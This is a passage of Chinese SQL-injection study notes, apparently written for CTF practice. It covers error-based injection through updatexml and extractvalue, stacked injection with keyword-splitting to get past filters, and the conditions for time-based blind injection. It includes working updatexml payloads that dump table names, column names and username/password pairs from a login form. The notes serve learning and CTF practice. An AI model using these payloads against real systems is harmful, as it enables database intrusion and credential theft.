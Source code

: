 ```python
    print(username)
```

#### 类型四：报错注入

条件：

1 没有明显的回显点
2 有mysql执行sql语句的报错信息

a. 利用updatexml函数来强制报错，带出我们的查询结果

```sql
username=s'  or updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),1)--+&password=fs
#查询数据库表名
username=s'  or updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='user'),'~'),1)--+&password=fs
-- 查询表中列名
username=s'  or updatexml(1,concat('~',(select group_concat(username,'~',password) from user),'~'),1)--+&password=fs
-- 查数据
#因为一次只能返回32个字符，需要使用substr来依次查看substr(查询的数据,从第几位开始,步长)
username=s'  or updatexml(1,concat('~',(select substr(group_concat(username,'~',password),30,30) from user),'~'),1)--+&password=fs
```

username=admin' or updatexml(1,concat('^',(select group_concat(column_name) from information_schema.columns where table_name='user' and table_schema=database()),'^'),1)%23&password=123123

b. extractvalue 和updatexml 功能一样，也是通过报错带出查询数据用

c. 整数溢出报错   exp  pow cot  

d. 不存在函数报错   select ctfshow();      很鸡肋只能查出数据库

#### 类型五：堆叠注入

我们控制的语句，可以执行多条sql

注意点：
需要后台代码支持多条语句执行，而这个支持，需要不同于上面的代码写法


强网杯  随便注  

通过分号分隔多条sql语句，实现了修改表结构，甚至删除表数据等等结果

如果可以堆叠，大家应该首先考虑  存储过程  set @a='sele';set @b='ct';set @c=@a+@b;

存储过程 类似与 shell的函数  可以自定义函数

#### 类型六：时间盲注

条件：
没有明显的回显点
页面也没有明显的变化，即使sql语句执行不成功

总结：
可以执行sql注入，但是不知道执行结果，也不知道执行了没，甚至不知道报错了没
